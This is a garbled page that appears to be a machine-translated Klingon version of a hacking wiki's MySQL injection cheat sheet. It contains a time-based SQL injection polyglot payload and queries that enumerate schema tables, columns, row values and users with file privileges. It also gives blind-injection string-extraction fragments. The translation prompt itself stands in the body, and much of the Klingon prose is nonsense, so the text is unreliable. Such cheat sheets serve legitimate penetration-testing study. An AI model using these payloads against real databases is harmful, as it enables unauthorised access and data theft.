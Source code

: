 ##### tlhIngan Hol

### bIjatlh 'ej pong

#### SQL Injection

##### MySQL Injection

###### tlhIngan Hol

The following is content from a hacking book about hacking techniques. The following content is from the file /hive/hacktricks/pentesting-web/sql-injection/mysql-injection/README.md. Translate the relevant English text to Klingon and return the translation keeping exactly the same markdown and HTML syntax. Do not translate things like code, hacking technique names, hacking word, cloud/SaaS platform names (like Workspace, aws, gcp...), the word 'leak', pentesting, and markdown tags. Also don't add any extra stuff apart from the translation and markdown syntax.
```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```
## qoH

ghItlhvam, **MySQL** **"modern"** versionmey DajatlhlaHbe'chugh "_**information\_schema.tables**_" "_**mysql.innodb\_table\_stats**_" **substitute** vItlhutlh. (WAFs bypass laHlIj vItlhutlh.)
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```
### **QaStaHvIS 1**

* `group_concat()`
* `Limit X,1`

### **Blind wa'logh**

* `substr(version(),X,1)='r'` or `substring(version(),X,1)=0x70` or `ascii(substr(version(),X,1))=112`
* `mid(version(),X,1)='5'`

### **Blind jatlh**

* `LPAD(version(),1...lenght(version()),'1')='asd'...`
* `RPAD(version(),1...lenght(version()),'1')='asd'...`
* `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
* `SELECT LEFT(version(),1...lenght(version()))='asd'...`
* `SELECT INSTR('foobarbar', 'fo...')=1`
